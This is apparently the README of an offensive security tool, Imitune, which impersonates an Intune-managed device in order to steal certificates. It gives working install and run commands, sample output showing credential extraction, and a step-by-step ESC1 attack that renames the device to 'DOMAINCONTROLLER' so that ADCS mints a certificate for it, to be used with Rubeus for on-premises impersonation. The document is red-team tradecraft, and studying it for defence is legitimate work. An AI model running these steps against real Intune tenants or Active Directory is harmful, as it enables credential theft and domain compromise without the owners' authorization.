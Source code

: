 # Imitune
An OMA-DM client and set of helper tools to impersonate an MDM managed device

## Background
This tool works best when you already have a working knowledge of the environment and can provide as much detail about the environment as possible

## Installation
You can install via pip. I suggest using virutal environments
```
mkdir imitune-ops
cd imitune-ops
python -m venv venv
```
On windows
```
venv\scripts\activate.bat
```
On Linix
```
source venv/bin/activate
```
Then, install imitune
```
pip install imitune
```

## Usage
1. Obtain an MDM certificate for an Intune management device
See our blog post here on how to accomplish this step:
https://specterops.io/blog/2025/07/30/entra-connect-attacker-tradecraft-part-3/
2. Copy the managementTree.json.template to managementTree.json. This represents all of your device settings and you should closely examine and modify the properties to your use case. Of note:
DNSComputerName is the display name that will be presented in the Intune admin panel
```
"./DevDetail/Ext/Microsoft/DNSComputerName": "DEVICES BY HOTNOPS", 
```
DeviceName is the value that will be used to populate the {{fullyQualifiedDomainName}} and {{deviceName}} properties
```
"./DevDetail/Ext/Microsoft/DeviceName": "DC02",
```
The ./Vendor/MSFT/NodeCache/MS%20DM%20Server/CacheVersion is very important. Modifying this field will trigger a re-sync of all cached properties in Intune.

3. Run an init commanad
```
python -m imitune 
--device-name DEVICE_NAME // This is only used for the source field of the OMA-DM message. Values in the managementTree.json file will be used for all management tree values
--pfx-file-path PFX_FILE_PATH // Path to the MDM certificate
--pfx-password // Password to the PFX file in the previous argument
--dummy-path // for testing, takes in a series of XML requests and respones from SyncMLViewer
--user-prompt // prompt the user before each request is sent
--output-directory // Output directory for loot and trace files. Uses --device-name if not provided
--user-jwt // Pass in a user JWT with management.microsoft.com aud to imitate a user logged into the device. This will help obtain configuration profiles scoped to individual users
```

Example:
```
python -m imitune --device-name TEST --pfx-file-path .\mdm-certificate.pfx --pfx-password il0veC3rts$ --action init


██╗███╗   ███╗██╗████████╗██╗   ██╗███╗   ██╗███████╗
██║████╗ ████║██║╚══██╔══╝██║   ██║████╗  ██║██╔════╝
██║██╔████╔██║██║   ██║   ██║   ██║██╔██╗ ██║█████╗
██║██║╚██╔╝██║██║   ██║   ██║   ██║██║╚██╗██║██╔══╝
██║██║ ╚═╝ ██║██║   ██║   ╚██████╔╝██║ ╚████║███████╗
╚═╝╚═╝     ╚═╝╚═╝   ╚═╝    ╚═════╝ ╚═╝  ╚═══╝╚══════╝
              [ I M I T U N E ]

[*] loading existing data from managementTree.json
[*] got a request for ./Device/Vendor/MSFT/ClientCertificateInstall/PFXCertInstall/5E9C6770-6D2E-4602-8ACA-B3418B1182BE/Status. sending 0
```

This tells is a desired response and tells us that Intune is asking about a particular certificate, and Imitune replied with an empty data response. This will trigger intune to send us a new ceritificate the next time we check in. If you modified the ./DevDetail/Ext/Microsoft/DeviceName parameter, wait for five minutes so that the request can be sent to the Intune Certificate Connector and returned. Once enough time has passed, re-run the command:

```
python -m imitune --device-name TEST --pfx-file-path .\mdm-certificate.pfx --pfx-password il0veC3rts$ --action init

██╗███╗   ███╗██╗████████╗██╗   ██╗███╗   ██╗███████╗
██║████╗ ████║██║╚══██╔══╝██║   ██║████╗  ██║██╔════╝
██║██╔████╔██║██║   ██║   ██║   ██║██╔██╗ ██║█████╗
██║██║╚██╔╝██║██║   ██║   ██║   ██║██║╚██╗██║██╔══╝
██║██║ ╚═╝ ██║██║   ██║   ╚██████╔╝██║ ╚████║███████╗
╚═╝╚═╝     ╚═╝╚═╝   ╚═╝    ╚═════╝ ╚═╝  ╚═══╝╚══════╝
              [ I M I T U N E ]

[*] loading existing data from managementTree.json
[*] obtained credentials at ./Device/Vendor/MSFT/ClientCertificateInstall/PFXCertInstall/5E9C6770-6D2E-4602-8ACA-B3418B1182BE/PFXCertBlob. extracting
```

And you'll see that we have a PFX file saved in our output directory. You can use this PFX file with Rubeus to impersonate the device on-premises.

## ESC1 Minting
If a property in the managementTree is used to populate the subject or SAN of a certificate, we can mint certificates for any on premises device we want. To do so, we'll need to modify our managementTree.json and set the CacheVersion to 0
```
"./Vendor/MSFT/NodeCache/MS%20DM%20Server/CacheVersion": "0",
```
Also, remove any line that starts with
```
./Device/Vendor/MSFT/ClientCertificateInstall/PFXCertInstall
```
We remove these so that when Intue asks about them, we respond with a 404 and indicate that they need to be sent back down. Lastly, we need to rename our device to the target of our ESC1 attack:
```
"./DevDetail/Ext/Microsoft/DeviceName": "DOMAINCONTROLLER",
```
Once our managementTree.json is ready, we will initiate our sync with the invalid CacheVersion. Intune will proceed to send down the entire node cache and inquire about the certs that need to be installed.
```
python -m imitune --device-name TEST --pfx-file-path .\mdm-certificate.pfx --pfx-password il0veC3rts$ --action init
```
It will take up to five minutes for the CSR request to be sent to the ADCS server and returned. After waiting, re-run the command (without modifying the managementTree.json!) and the certificate should be returned.

## Troubleshooting
* Trace files
Imitune saves all requests and responses in the $outputDir\traces folder. You can use these to determine what Intune is asking for and tweak any values in the managementTree.json file.
* Intune is resonding to my first request with an empty response
You don goofed. This happened to me so so many times when developing this. Figure out what you sent that broke Intune, wait 30 minutes, and try again.